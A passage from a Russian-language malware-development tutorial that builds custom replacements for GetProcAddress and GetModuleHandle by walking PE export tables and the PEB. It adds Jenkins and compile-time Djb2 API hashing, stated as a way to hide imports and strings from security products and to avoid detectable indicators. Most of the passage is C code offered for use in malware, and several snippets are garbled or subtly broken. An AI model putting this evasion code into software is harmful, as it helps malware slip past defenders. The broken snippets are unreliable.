DWORD AddressOfNameOrdinals; // RVA от базы изображения
} IMAGE_EXPORT_DIRECTORY, *PIMAGE_EXPORT_DIRECTORY;Поскольку эти элементы являются RVA, к базовому адресу модуля, pBase, должен быть добавлен VA. Первые два фрагмента кода должны быть простыми. Они извлекают имя функции и адрес функции соответственно. Третий фрагмент извлекает порядковый номер функции, который объясняется подробно в следующем разделе.
Код:
// Получение указателя на массив имен функций
PDWORD FunctionNameArray = (PDWORD)(pBase + pImgExportDir->AddressOfNames);
// Получение указателя на массив адресов функций
PDWORD FunctionAddressArray = (PDWORD)(pBase + pImgExportDir->AddressOfFunctions);
// Получение указателя на массив порядковых номеров функции
PWORD FunctionOrdinalArray = (PWORD)(pBase + pImgExportDir->AddressOfNameOrdinals);Понимание порядковых номеров
Порядковый номер функции - это целочисленное значение, представляющее позицию функции в таблице экспортированных функций в DLL. Таблица экспорта организована в виде списка (массива) указателей на функции, каждой функции присваивается порядковое значение на основе ее положения в таблице.
Важно отметить, что порядковое значение используется для идентификации адреса функции, а не ее имени. Таблица экспорта работает таким образом, чтобы обрабатывать случаи, когда имя функции недоступно или не уникально. Кроме того, получение адреса функции с помощью ее порядкового номера происходит быстрее, чем с помощью ее имени. По этой причине операционная система использует порядковый номер для извлечения адреса функции.
Например, адрес VirtualAlloc равен FunctionAddressArray[порядковый номер VirtualAlloc], где FunctionAddressArray - это указатель массива адресов функции, извлеченный из таблицы экспорта.
Учитывая это, следующий фрагмент кода выведет порядковое значение каждой функции в массиве функций указанного модуля.
C:
// Получение указателя на массив имен функций
PDWORD FunctionNameArray = (PDWORD)(pBase + pImgExportDir->AddressOfNames);
// Получение указателя на массив адресов функций
PDWORD FunctionAddressArray = (PDWORD)(pBase + pImgExportDir->AddressOfFunctions);
// Получение указателя на массив порядковых номеров функции
PWORD FunctionOrdinalArray = (PWORD)(pBase + pImgExportDir->AddressOfNameOrdinals);
// Цикл по всем экспортированным функциям
for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++){
// Получение имени функции
CHAR* pFunctionName = (CHAR*)(pBase + FunctionNameArray[i]);
// Получение порядкового номера функции
WORD wFunctionOrdinal = FunctionOrdinalArray[i];
// Вывод
printf("[ %0.4d ] NAME: %s -\t ORDINAL: %d\n", i, pFunctionName, wFunctionOrdinal);
}Частичная демонстрация GetProcAddressReplacement
Хотя GetProcAddressReplacement еще не завершена, теперь она должна выводить имена функций и их соответствующие порядковые номера.
Чтобы проверить, что было построено до сих пор, вызовите функцию с следующими параметрами:
C:
GetProcAddressReplacement(GetModuleHandleA("ntdll.dll"), NULL);Как ожидалось, имя функции и порядковый номер функции выводятся на консоль.
Порядковый номер к адресу
С помощью порядкового номера функции можно получить адрес функции.
C:
// Получение указателя на массив имен функций
PDWORD FunctionNameArray = (PDWORD)(pBase + pImgExportDir->AddressOfNames);
// Получение указателя на массив адресов функций
PDWORD FunctionAddressArray = (PDWORD)(pBase + pImgExportDir->AddressOfFunctions);
// Получение указателя на массив порядковых номеров функции
PWORD FunctionOrdinalArray = (PWORD)(pBase + pImgExportDir->AddressOfNameOrdinals);
// Цикл по всем экспортированным функциям
for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++){
// Получение имени функции
CHAR* pFunctionName = (CHAR*)(pBase + FunctionNameArray[i]);
// Получение порядкового номера функции
WORD wFunctionOrdinal = FunctionOrdinalArray[i];
// Получение адреса функции через ее порядковый номер
PVOID pFunctionAddress = (PVOID)(pBase + FunctionAddressArray[wFunctionOrdinal]);
printf("[ %0.4d ] NAME: %s -\t ADDRESS: 0x%p -\t ORDINAL: %d\n", i, pFunctionName, pFunctionAddress, wFunctionOrdinal);
}Для проверки функциональности откройте notepad.exe с помощью xdbg и проверьте экспорт ntdll.dll.
Изображение выше показывает, что адрес A_SHAUpdate равен 0x00007FFD384D2D10 как в xdbg, так и с использованием функции GetProcAddressReplacement. Однако обратите внимание, что порядковые номера для функции отличаются из-за того, что загрузчик Windows генерирует новый массив порядковых номеров для каждого процесса.
Код GetProcAddressReplacement
Последний фрагмент кода, необходимый для завершения функции, - это способ сравнения экспортированных имен функций с целевым именем функции, lpApiName. Это легко сделать с помощью strcmp. Затем, наконец, верните адрес функции при совпадении.
C:
FARPROC GetProcAddressReplacement(IN HMODULE hModule, IN LPCSTR lpApiName) {
// Делаем это, чтобы избежать приведения каждый раз при использовании 'hModule'
PBYTE pBase = (PBYTE)hModule;
// Получение заголовка DOS и проверка подписи
PIMAGE_DOS_HEADER pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;
if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
return NULL;
// Получение заголовков NT и проверка подписи
PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return NULL;
// Получение необязательного заголовка
IMAGE_OPTIONAL_HEADER ImgOptHdr = pImgNtHdrs->OptionalHeader;
// Получение таблицы экспорта изображения
PIMAGE_EXPORT_DIRECTORY pImgExportDir = (PIMAGE_EXPORT_DIRECTORY) (pBase + ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
// Получение указателя на массив имен функций
PDWORD FunctionNameArray = (PDWORD)(pBase + pImgExportDir->AddressOfNames);
// Получение указателя на массив адресов функций
PDWORD FunctionAddressArray = (PDWORD)(pBase + pImgExportDir->AddressOfFunctions);
// Получение указателя на массив порядковых номеров функции
PWORD FunctionOrdinalArray = (PWORD)(pBase + pImgExportDir->AddressOfNameOrdinals);
// Цикл по всем экспортированным функциям
for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++){
// Получение имени функции
CHAR* pFunctionName = (CHAR*)(pBase + FunctionNameArray[i]);
// Получение адреса функции через его порядковый номер
PVOID pFunctionAddress = (PVOID)(pBase + FunctionAddressArray[FunctionOrdinalArray[i]]);
// Поиск указанной функции
if (strcmp(lpApiName, pFunctionName) == 0){
printf("[ %0.4d ] FOUND API -\t NAME: %s -\t ADDRESS: 0x%p -\t ORDINAL: %d\n", i, pFunctionName, pFunctionAddress, FunctionOrdinalArray[i]);
return pFunctionAddress;
}
}
return NULL;
}Финальная демонстрация GetProcAddressReplacement
Изображение ниже показывает результаты обеих функций GetProcAddress и GetProcAddressReplacement, ищущих адрес NtAllocateVirtualMemory. Как ожидалось, оба результата указывают на правильный адрес функции, и поэтому успешно была создана пользовательская реализация GetProcAddress.
Теперь давайте попробуем реализовать функцию GetModuleHandle
Функция GetModuleHandle извлекает дескриптор для указанной DLL. Функция возвращает дескриптор к DLL или NULL, если DLL не существует в вызывающем процессе.
В этом модуле будет реализована функция, которая заменит GetModuleHandle.
Прототип новой функции показан ниже.
C:
HMODULE GetModuleHandleReplacement(IN LPCWSTR szModuleName){}Как работает GetModuleHandle
Тип данных HMODULE - это базовый адрес загруженной DLL, который указывает, где DLL расположена в адресном пространстве процесса. Следовательно, цель функции-заменителя - извлечь базовый адрес указанной DLL.
Блок окружения процесса (PEB) содержит информацию о загруженных DLL, в частности, член PEB_LDR_DATA Ldr структуры PEB.
Таким образом, начальный шаг - получить доступ к этому члену через структуру PEB.
PEB в 64-битных системах
Напомним, что указатель на структуру PEB находится в структуре блока окружения потока (TEB).
В 64-битных системах смещение к указателю структуры TEB хранится в регистре GS. Следующее изображение из x64dbg.
Метод 1: Извлечение PEB в 64-битных системах
Существуют два разных способа извлечения PEB. Первый метод включает в себя извлечение структуры TEB, а затем получение указателя на PEB. Этот подход можно выполнить с помощью макроса __readgsqword(0x30) в Visual Studio, который считывает 0x30 байт из регистра GS, чтобы достичь указателя на структуру TEB.
C:
// Метод 1
PTEB pTeb = (PTEB)__readgsqword(0x30);
PPEB pPeb = (PPEB)pTeb->ProcessEnvironmentBlock;Метод 2: Извлечение PEB в 64-битных системах
Следующий метод извлекает структуру PEB напрямую, пропуская структуру TEB, используя макрос __readgsqword(0x60) в Visual Studio, который считывает 0x60 байт из регистра GS.
C:
// Метод 2
PPEB pPeb2 = (PPEB)(__readgsqword(0x60));Это можно сделать, потому что элемент ProcessEnvironmentBlock находится на 0x60 (hex) или 96 байтах от начала структуры TEB.
Метод 1: Извлечение PEB в 32-битных системах.
Так же, как и в 64-битных системах, существуют два способа извлечения PEB.
Первый метод включает в себя получение структуры TEB, а затем получение структуры PEB с помощью макроса __readfsdword(0x18) в Visual Studio, который считывает 0x18 байт из регистра FS.
C:
// Метод 1
PTEB pTeb = (PTEB)__readfsdword(0x18);
PPEB pPeb = (PPEB)pTeb->ProcessEnvironmentBlock;Метод 2: Извлечение PEB в 32-битных системах
Второй метод получает PEB напрямую, пропуская структуру TEB, используя макрос __readfsdword(0x30) в Visual Studio, который считывает 0x30 байт из регистра FS.
Код:
// Метод 2
PPEB pPeb2 = (PPEB)(__readfsdword(0x30));0x30 (hex) это 48 байт, которые являются смещением элемента ProcessEnvironmentBlock от 32-битной структуры TEB. Тип данных PVOID составляет 4 байта в 32-битных системах.
Перечисление DLL
После извлечения структуры PEB следующий шаг - получить доступ к члену PEB_LDR_DATA Ldr. Напомним, что этот член содержит информацию о загруженных DLL в процессе.
Структура PEB_LDR_DATA
Структура PEB_LDR_DATA показана ниже. Важным членом этой структуры является LIST_ENTRY InMemoryOrderModuleList.
C:
typedef struct _PEB_LDR_DATA {
BYTE Reserved1[8];
PVOID Reserved2[3];
LIST_ENTRY InMemoryOrderModuleList;
} PEB_LDR_DATA, *PPEB_LDR_DATA;Структура LIST_ENTRY
Структура LIST_ENTRY, показанная ниже, представляет собой двусвязный список, который по сути аналогичен массивам, но упрощает доступ к соседним элементам.
C:
typedef struct _LIST_ENTRY {
struct _LIST_ENTRY *Flink;
struct _LIST_ENTRY *Blink;
} LIST_ENTRY, *PLIST_ENTRY, *RESTRICTED_POINTER PRLIST_ENTRY;Двусвязные списки используют элементы Flink и Blink в качестве указателей на начало и конец списка соответственно. Это означает, что Flink указывает на следующий узел в списке, тогда как элемент Blink указывает на предыдущий узел в списке. Эти указатели используются для перемещения по связанному списку в обоих направлениях. Зная это, чтобы начать перечисление этого списка, следует начать с доступа к его первому элементу, InMemoryOrderModuleList.Flink.
Согласно определению Microsoft для члена InMemoryOrderModuleList, указывается, что каждый элемент в списке является указателем на структуру LDR_DATA_TABLE_ENTRY.
Структура LDR_DATA_TABLE_ENTRY
Структура LDR_DATA_TABLE_ENTRY представляет собой DLL внутри связанного списка загруженных DLL для процесса. Каждый LDR_DATA_TABLE_ENTRY представляет собой уникальную DLL.
C:
typedef struct _LDR_DATA_TABLE_ENTRY {
PVOID Reserved1[2];
LIST_ENTRY InMemoryOrderLinks; // двусвязный список, содержащий порядок загрузки модулей в память
PVOID Reserved2[2];
PVOID DllBase;
PVOID EntryPoint;
PVOID Reserved3;
UNICODE_STRING FullDllName; // структура 'UNICODE_STRING', содержащая имя файла загруженного модуля
BYTE Reserved4[8];
PVOID Reserved5[3];
union {
ULONG CheckSum;
PVOID Reserved6;
};
ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;Логика реализации
На основе всего вышеупомянутого требуются следующие действия:
1. Извлечь PEB
2. Извлечь член Ldr из PEB
3. Извлечь первый элемент в связанном списке
Код:
HMODULE GetModuleHandleReplacement(IN LPCWSTR szModuleName) {
// Получение peb
#ifdef _WIN64 // если компиляция как x64
PPEB pPeb = (PEB*)(__readgsqword(0x60));
#elif _WIN32 // если компиляция как x32
PPEB pPeb = (PEB*)(__readfsdword(0x30));
#endif// Получение Ldr
PPEB_LDR_DATA pLdr = (PPEB_LDR_DATA)(pPeb->Ldr);
// Получение первого элемента в связанном списке, который содержит информацию о первом модуле
PLDR_DATA_TABLE_ENTRY pDte = (PLDR_DATA_TABLE_ENTRY)(pLdr->InMemoryOrderModuleList.Flink);
}Поскольку каждый pDte представляет собой уникальную DLL внутри связанного списка, возможно перейти к следующему элементу с помощью следующей строки кода:
C:
pDte = (PLDR_DATA_TABLE_ENTRY)(pDte);Эта строка кода может показаться сложной, но все, что она делает - это разыменовывает значение, хранящееся по адресу, на который указывает pDte, а затем приводит результат к указателю на структуру PLDR_DATA_TABLE_ENTRY. Это просто так работают связанные списки, что-то вроде следующего изображения.
Перечисление DLL - код
Приведенный ниже фрагмент кода извлекает имя DLL, уже загруженных в вызывающий процесс. Функция ищет целевой модуль, szModuleName. Если совпадение найдено, функция возвращает дескриптор к DLL (HMODULE), в противном случае - возвращает NULL.
C:
MODULE GetModuleHandleReplacement(IN LPCWSTR szModuleName) {
// Получение PEB
#ifdef _WIN64 // если компиляция как x64
PPEB pPeb = (PEB*)(__readgsqword(0x60));
#elif _WIN32 // если компиляция как x32
PPEB pPeb = (PEB*)(__readfsdword(0x30));
#endif// Получение Ldr
PPEB_LDR_DATA pLdr = (PPEB_LDR_DATA)(pPeb->Ldr);
// Получение первого элемента в связанном списке, который содержит информацию о первом модуле
PLDR_DATA_TABLE_ENTRY pDte = (PLDR_DATA_TABLE_ENTRY)(pLdr->InMemoryOrderModuleList.Flink);
while (pDte) {
// Если не null
if (pDte->FullDllName.Length != NULL) {
// Вывод имени DLL
wprintf(L"[i] \"%s\" \n", pDte->FullDllName.Buffer);
}
else {
break;
}
// Следующий элемент в связанном списке
pDte = *(PLDR_DATA_TABLE_ENTRY*)(pDte);
}
return NULL;
}Чувствительность имен DLL к регистру
Изучив вывод, можно легко заметить, что некоторые имена DLL написаны заглавными буквами, а некоторые - нет, что влияет на возможность получения базового адреса DLL (HMODULE). Например, если кто-то ищет DLL KERNEL32.DLL и передает Kernel32.DLL, функция wcscmp будет рассматривать обе строки как разные.
Чтобы устранить эту проблему, была создана вспомогательная функция IsStringEqual, которая принимает две строки, преобразует их в представление в нижнем регистре, а затем сравнивает их в этом состоянии. Она возвращает true, если обе строки равны, и false в противном случае.
Код:
BOOL IsStringEqual (IN LPCWSTR Str1, IN LPCWSTR Str2) {
WCHAR lStr1 [MAX_PATH],
lStr2 [MAX_PATH];
int len1 = lstrlenW(Str1),
len2 = lstrlenW(Str2);
int i = 0,
j = 0;
// Проверка длины. Не хотим переполнить буферы
if (len1 >= MAX_PATH || len2 >= MAX_PATH)
return FALSE;
// Преобразование Str1 в строку в нижнем регистре (lStr1)
for (i = 0; i < len1; i++){
lStr1[i] = (WCHAR)tolower(Str1[i]);
}
lStr1[i++] = L'\0'; // завершение null
// Преобразование Str2 в строку в нижнем регистре (lStr2)
for (j = 0; j < len2; j++) {
lStr2[j] = (WCHAR)tolower(Str2[j]);
}
lStr2[j++] = L'\0'; // завершение null
// Сравнение строк в нижнем регистре
if (lstrcmpiW(lStr1, lStr2) == 0)
return TRUE;
return FALSE;
}Базовый адрес DLL
Получение базового адреса DLL требует ссылки на структуру LDR_DATA_TABLE_ENTRY. К сожалению, в официальной документации Microsoft отсутствуют большие фрагменты структуры. Поэтому, чтобы лучше понять структуру, был проведен поиск структур ядра Windows Vista. Результаты для структуры можно найти здесь.
C:
typedef struct _LDR_DATA_TABLE_ENTRY {
LIST_ENTRY InLoadOrderLinks;
LIST_ENTRY InMemoryOrderLinks;
LIST_ENTRY InInitializationOrderLinks;
PVOID DllBase;
PVOID EntryPoint;
ULONG SizeOfImage;
UNICODE_STRING FullDllName;
UNICODE_STRING BaseDllName;
ULONG Flags;
WORD LoadCount;
WORD TlsIndex;
union {
LIST_ENTRY HashLinks;
struct {
PVOID SectionPointer;
ULONG CheckSum;
};
};
union {
ULONG TimeDateStamp;
PVOID LoadedImports;
};
PACTIVATION_CONTEXT EntryPointActivationContext;
PVOID PatchInformation;
LIST_ENTRY ForwarderLinks;
LIST_ENTRY ServiceTagLinks;
LIST_ENTRY StaticLinks;
} LDR_DATA_TABLE_ENTRY, * PLDR_DATA_TABLE_ENTRY;Базовый адрес DLL - это InInitializationOrderLinks.Flink, хотя имя этого не предполагает, но, к сожалению, Microsoft любит сбивать с толку людей. Сравнив этот член с официальной документацией Microsoft по LDR_DATA_TABLE_ENTRY, можно увидеть, что базовый адрес DLL - это зарезервированный элемент (Reserved2[0]).
С этим в виду, функция-заменитель GetModuleHandle может быть завершена.
Функция-заменитель GetModuleHandle
GetModuleHandleReplacement - это функция, которая заменяет GetModuleHandle. Она будет искать заданное имя DLL, и если оно загружено процессом, возвращает дескриптор к DLL.
C:
HMODULE GetModuleHandleReplacement(IN LPCWSTR szModuleName) {
// Получение PEB
#ifdef _WIN64 // если компиляция как x64
PPEB pPeb = (PEB*)(__readgsqword(0x60));
#elif _WIN32 // если компиляция как x32
PPEB pPeb = (PEB*)(__readfsdword(0x30));
#endif// Получение Ldr
PPEB_LDR_DATA pLdr = (PPEB_LDR_DATA)(pPeb->Ldr);
// Получение первого элемента в связанном списке (содержит информацию о первом модуле)
PLDR_DATA_TABLE_ENTRY pDte = (PLDR_DATA_TABLE_ENTRY)(pLdr->InMemoryOrderModuleList.Flink);
while (pDte) {
// Если не null
if (pDte->FullDllName.Length != NULL) {
// Проверка на равенство
if (IsStringEqual(pDte->FullDllName.Buffer, szModuleName)) {
wprintf(L"[+] Найдена Dll \"%s\" \n", pDte->FullDllName.Buffer);
#ifdef LDR_DATA_TABLE_ENTRY return (HMODULE)(pDte->InInitializationOrderLinks.Flink);
#else return (HMODULE)pDte->Reserved2[0];
#endif // STRUCTS}
// wprintf(L"[i] \"%s\" \n", pDte->FullDllName.Buffer);
}
else {
break;
}
// Следующий элемент в связанном списке
pDte = *(PLDR_DATA_TABLE_ENTRY*)(pDte);
}
return NULL;
}Одна часть кода, которая не была объяснена, показана ниже. Эта часть кода определяет, используется ли версия структуры LDR_DATA_TABLE_ENTRY от Microsoft или та, что из структур ядра Windows Vista. В зависимости от того, какая из них была использована, имя члена меняется.
Код:
#ifdef LDR_DATA_TABLE_ENTRY return (HMODULE)(pDte->InInitializationOrderLinks.Flink);
#else return (HMODULE)pDte->Reserved2[0];
#endif // STRUCTSДемо
Вот мы написали две функции GetProcAddressReplacement и GetModuleHandleReplacement, которые заменяли GetProcAddress и GetModuleHandle. Этого достаточно для выполнения Run-Time Dynamic Linking, что скрывает импортированные функции от IAT. Однако строки, используемые в коде, показывают, какие функции используются. Например, строка ниже использует функции для извлечения VirtualAllocEx.
C:
GetProcAddressReplacement(GetModuleHandleReplacement("ntdll.dll"),"VirtualAllocEx")Решения безопасности легко могут извлекать строки из скомпилированного двоичного файла и распознавать, что используется VirtualAllocEx. Чтобы решить эту проблему, к обеим функциям GetProcAddressReplacement и GetModuleHandleReplacement будет применен алгоритм хэширования строк. Вместо выполнения строковых сравнений для получения указанного базового адреса модуля или адреса функции, функции будут работать с хеш-значениями.
Реализация JenkinsOneAtATime32Bit
Функции GetProcAddressReplacement и GetModuleHandleReplacement в этом модуле переименованы в GetProcAddressH и GetModuleHandleH соответственно. Эти обновленные функции используют алгоритм хеширования строк Jenkins One At A Time для замены имени функции и модуля на хеш-значение, которое их представляет. Напомним, что этот алгоритм был использован через функцию JenkinsOneAtATime32Bit, которая была представлена в уроке скрытия строк.
Хеширование строк
Чтобы использовать функции, показанные в этой статье, необходимо получить хеш-значение имени модуля (например, User32.dll) и хеш-значение имени функции (например, MessageBoxA). Это можно сделать, сначала выводя хешированные значения на консоль. Убедитесь, что алгоритм хеширования использует ту же начальную точку.
C:
int main(){
printf("[i] Хеш "%s" : 0x%0.8X \n", "USER32.DLL", HASHA("USER32.DLL")); // Имя модуля в верхнем регистре
printf("[i] Хеш "%s" : 0x%0.8X \n", "MessageBoxA", HASHA("MessageBoxA"));
return 0;
}Вышеуказанная основная функция выведет следующее:
Хеш "USER32.DLL" : 0x81E3778E
Хеш "MessageBoxA" : 0xF10E27CA
Эти хеш-значения теперь можно использовать с функциями ниже.
Использование
Функции будут использоваться таким же образом, за исключением того, что теперь передается хеш-значение, а не строковое значение.
C:
// 0x81E3778E - это хеш USER32.DLL
// 0xF10E27CA - это хеш MessageBoxA
fnMessageBoxA pMessageBoxA = GetProcAddressH(GetModuleHandleH(0x81E3778E),0xF10E27CA);Функция GetProcAddressH
GetProcAddressH - это функция, эквивалентная GetProcAddressReplacement, основное отличие которой заключается в том, что хеш-значения алгоритма хеширования строк JenkinsOneAtATime32Bit используются для сравнения экспортируемых имен функций с входным хешем.
Также стоит отметить, что код использует два макроса, чтобы сделать код более чистым и легким для обновления в будущем.
HASHA - Вызов HashStringJenkinsOneAtATime32BitA (ASCII)
HASHW - Вызов HashStringJenkinsOneAtATime32BitW (UNICODE)
#define HASHA(API) (HashStringJenkinsOneAtATime32BitA((PCHAR) API))
#define HASHW(API) (HashStringJenkinsOneAtATime32BitW((PWCHAR) API))
Исходя из этого, GetProcAddressH показан ниже.
Функция принимает два параметра:
hModule - дескриптор модуля DLL, содержащего функцию.
dwApiNameHash - хеш-значение имени функции, чтобы получить ее адрес.
C:
FARPROC GetProcAddressH(HMODULE hModule, DWORD dwApiNameHash) {
if (hModule == NULL || dwApiNameHash == NULL)
return NULL;
PBYTE pBase = (PBYTE)hModule;
PIMAGE_DOS_HEADER pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;
if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
return NULL;
PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return NULL;
IMAGE_OPTIONAL_HEADER ImgOptHdr = pImgNtHdrs->OptionalHeader;
PIMAGE_EXPORT_DIRECTORY pImgExportDir = (PIMAGE_EXPORT_DIRECTORY)(pBase + ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
PDWORD FunctionNameArray = (PDWORD)(pBase + pImgExportDir->AddressOfNames);
PDWORD FunctionAddressArray = (PDWORD)(pBase + pImgExportDir->AddressOfFunctions);
PWORD FunctionOrdinalArray = (PWORD)(pBase + pImgExportDir->AddressOfNameOrdinals);
for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++) {
CHAR* pFunctionName = (CHAR*)(pBase + FunctionNameArray[i]);
PVOID pFunctionAddress = (PVOID)(pBase + FunctionAddressArray[FunctionOrdinalArray[i]]);
// Хеширование каждого имени функции pFunctionName
// Если оба хеша равны, значит, мы нашли нужную функцию
if (dwApiNameHash == HASHA(pFunctionName)) {
return pFunctionAddress;
}
}
return NULL;
}GetModuleHandleH
Функция GetModuleHandleH такая же, как и GetModuleHandleReplacement, основное отличие состоит в том, что хеш-значения алгоритма хеширования строк JenkinsOneAtATime32Bit будут использоваться для сравнения перечисленных имен DLL с входным хешем.
Обратите внимание на то, как функция преобразует строку в FullDllName.Buffer в верхний регистр, следовательно, параметр dwModuleNameHash должен быть хеш-значением имени модуля в верхнем регистре (например, USER32.DLL).
C:
HMODULE GetModuleHandleH(DWORD dwModuleNameHash) {
if (dwModuleNameHash == NULL)
return NULL;
#ifdef _WIN64
PPEB pPeb = (PEB*)(__readgsqword(0x60));
#elif _WIN32
PPEB pPeb = (PEB*)(__readfsdword(0x30));
#endif
PPEB_LDR_DATA pLdr = (PPEB_LDR_DATA)(pPeb->Ldr);
PLDR_DATA_TABLE_ENTRY pDte = (PLDR_DATA_TABLE_ENTRY)(pLdr->InMemoryOrderModuleList.Flink);
while (pDte) {
if (pDte->FullDllName.Length != NULL && pDte->FullDllName.Length < MAX_PATH) {
// Преобразование `FullDllName.Buffer` в строку верхнего регистра
CHAR UpperCaseDllName[MAX_PATH];
DWORD i = 0;
while (pDte->FullDllName.Buffer[i]) {
UpperCaseDllName[i] = (CHAR)toupper(pDte->FullDllName.Buffer[i]);
i++;
}
UpperCaseDllName[i] = '\0';
// хеширование `UpperCaseDllName` и сравнение хеш-значения с тем, что во входном `dwModuleNameHash`
if (HASHA(UpperCaseDllName) == dwModuleNameHash)
return pDte->Reserved2[0];
}
else {
break;
}
pDte = *(PLDR_DATA_TABLE_ENTRY*)(pDte);
}
return NULL;
}Демо
Это демо использует GetModuleHandleH и GetProcAddressH для вызова MessageBoxA.
C:
#define USER32DLL_HASH 0x81E3778E
#define MessageBoxA_HASH 0xF10E27CAint
main() {
// Загрузите User32.dll в текущий процесс, чтобы GetModuleHandleH работал
if (LoadLibraryA("USER32.DLL") == NULL) {
printf("[!] LoadLibraryA не удалось с ошибкой : %d \n", GetLastError());
return 0;
}
// Получение дескриптора user32.dll с помощью GetModuleHandleH
HMODULE hUser32Module = GetModuleHandleH(USER32DLL_HASH);
if (hUser32Module == NULL){
printf("[!] Не удалось получить дескриптор User32.dll \n");
return -1;
}
// Получение адреса функции MessageBoxA с помощью GetProcAddressH
fnMessageBoxA pMessageBoxA = (fnMessageBoxA)GetProcAddressH(hUser32Module, MessageBoxA_HASH);
if (pMessageBoxA == NULL) {
printf("[!] Не удалось найти адрес указанной функции \n");
return -1;
}
// Вызов MessageBoxA
pMessageBoxA(NULL, "Создание вредоносных программ с RuSfera", "Вау", MB_OK | MB_ICONEXCLAMATION);
printf("[#] Нажмите <Enter>, чтобы выйти ... ");
getchar();
return 0;
}Использование хэширования API для маскировки IAT реализации является эффективным методом. Однако иногда замена самого WinAPI, если это возможно, может улучшить скрытность IAT, уменьшая количество хэш-значений, а также уменьшая потенциальные эвристические сигнатуры, связанные с алгоритмом хэширования API. Кроме того, реализация пользовательского кода для функции WinAPI может использоваться в различных реализациях, что упрощает автоматизацию общего процесса скрытия IAT.
Можно посмотреть реализацию некоторых API здесь:GitHub - vxunderground/VX-API: Collection of various malicious functionality to aid in malware development
Генерация хешей во время компиляции программы
В этой статье хеширования API хеши функций и модулей генерировались перед их добавлением в код. К сожалению, это может занять много времени, и этого можно избежать, используя хеширование API во время компиляции.
Кроме того, в статье выше хеши были жестко закодированы, что позволяет системам безопасности использовать их в качестве индикаторов заражения, если они не обновляются в каждой реализации. Однако при хешировании API во время компиляции динамические хеши генерируются каждый раз при компиляции двоичного файла.
Оговорка
Этот метод работает только с проектами на C++ из-за использования ключевого слова constexpr. Оператор constexpr в C++ используется для указания на то, что функция или переменная может быть вычислена на этапе компиляции. Кроме того, оператор constexpr на функциях и переменных улучшает производительность приложения, позволяя компилятору выполнять определенные вычисления на этапе компиляции, а не во время выполнения.
Пошаговое руководство по хешированию во время компиляции
Ниже приведены шаги, необходимые для реализации хеширования во время компиляции.
Создание функций во время компиляции
Первым шагом является преобразование используемых хеш-функций в функции, выполняемые во время компиляции, с использованием оператора constexpr. В данном случае алгоритм хеширования Dbj2 будет изменен для использования оператора constexpr.
C:
#define SEED 5 // Функция хеширования Djb2 во время компиляции (WIDE)
constexpr DWORD HashStringDjb2W(const wchar_t* String) {
ULONG Hash = (ULONG)g_KEY;
INT c = 0;
while ((c = *String++)) {
Hash = ((Hash << SEED) + Hash) + c;
}
return Hash;
}
// Функция хеширования Djb2 во время компиляции (ASCII)
constexpr DWORD HashStringDjb2A(const char* String) {
ULONG Hash = (ULONG)g_KEY;
INT c = 0;
while ((c = *String++)) {
Hash = ((Hash << SEED) + Hash) + c;
}
return Hash;
}Неопределенная переменная, g_KEY, используется в качестве начального хеша в обеих функциях.
g_KEY - это глобальная переменная constexpr и она случайным образом генерируется функцией RandomCompileTimeSeed (объясняется ниже) при каждой компиляции двоичного файла.
Генерация случайного значения начального числа RandomCompileTimeSeed используется для генерации случайного значения начального числа на основе текущего времени. Он делает это, извлекая цифры из макроса TIME, который является предопределенным макросом в C++, который расширяется до текущего времени в формате ЧЧ:ММ:СС. Затем функция RandomCompileTimeSeed умножает каждую цифру на разную случайную константу и складывает их все вместе, чтобы получить окончательное значение начального числа.
C:
// Генерировать случайный ключ на этапе компиляции, который используется как начальный хеш
constexpr int RandomCompileTimeSeed(void)
{
return '0' * -40271 +
__TIME__[7] * 1 +
__TIME__[6] * 10 +
__TIME__[4] * 60 +
__TIME__[3] * 600 +
__TIME__[1] * 3600 +
__TIME__[0] * 36000;
};
// Компилируемое время случайного начального числа
constexpr auto g_KEY = RandomCompileTimeSeed() % 0xFF;Создание макросов
Затем определите два макроса, RTIME_HASHA и RTIME_HASHW, которые будут использоваться функцией GetProcAddressH во время выполнения для сравнения хешей. Макросы следует определить следующим образом.
C:
#define RTIME_HASHA( API ) HashStringDjb2A((const char*) API) // Вызов HashStringDjb2A
#define RTIME_HASHW( API ) HashStringDjb2W((const wchar_t*) API) // Вызов HashStringDjb2WКак только функция хеширования во время компиляции будет установлена, следующим шагом будет объявление значений хеша во время компиляции в переменных. Для автоматизации процесса будут реализованы два макроса.
C:
#define CTIME_HASHA( API ) constexpr auto API##_Rotr32A = HashStringDjb2A((const char*) #API);
#define CTIME_HASHW( API ) constexpr auto API##_Rotr32W = HashStringDjb2W((const wchar_t*) L#API);Оператор преобразования в строку
Символ # известен как оператор преобразования в строку. Он используется для преобразования параметра макропроцессора в строковый литерал.
Например, если макрос CTIME_HASHA вызван с аргументом SomeFunction, как HASHA(SomeFunction), выражение #API будет заменено строковым литералом "SomeFunction".
Оператор объединения
Оператор ## известен как оператор объединения. Он используется для объединения двух макросов в один макрос.
Оператор ## используется для объединения параметра API со строкой "_Rotr32A" или "_Rotr32W" соответственно, чтобы формировать окончательное имя определяемой переменной.
Например, если макрос CTIME_HASHA вызван с аргументом SomeFunction, как HASHA(SomeFunction), оператор ## объединит API с "_Rotr32A" для формирования окончательного имени переменной SomeFunction_Rotr32A.
Демонстрация расширения макроса
Чтобы лучше понять, как работают предыдущие макросы, на изображении ниже показан пример использования макроса CTIME_HASHA для создания хеша для MessageBoxA, создавая переменную под названием MessageBoxA_Rotr32A, которая будет содержать значение хеша во время компиляции.
Хеширование во время компиляции - Код
Собрав все вместе, код будет выглядеть следующим образом.
C:
#include <Windows.h>
#include <stdio.h>
#include <winternl.h>
